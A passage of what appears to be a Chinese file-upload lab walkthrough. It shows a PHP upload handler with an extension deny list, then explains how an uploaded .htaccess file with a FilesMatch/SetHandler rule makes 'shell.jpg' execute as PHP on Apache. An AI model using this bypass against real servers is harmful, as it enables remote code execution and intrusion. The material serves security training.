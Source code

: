```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2","php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2","pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}

```

由于`.user.ini`文件绕过步骤多一点，这里选择`.htaccess`文件绕过。

修改`/etc/apache2/apache2.conf`，把`AllowOverride None`改成`AllowOverride ALL`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757658089705-3c695506-88fa-443f-9e08-e5b98bc2d49a.png)

> <font style="color:rgb(51, 51, 51);">除了这个条件之外，其实还需要</font>`<font style="color:rgb(51, 51, 51);">mod_rewrite</font>`<font style="color:rgb(51, 51, 51);">模块开启，中间件得是Apache，不支持nginx。</font>
>

<font style="color:rgb(51, 51, 51);"> 接下来构建</font>`<font style="color:rgb(51, 51, 51);">.htaccess</font>`<font style="color:rgb(51, 51, 51);">：</font>

```plain
<FilesMatch "shell.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```
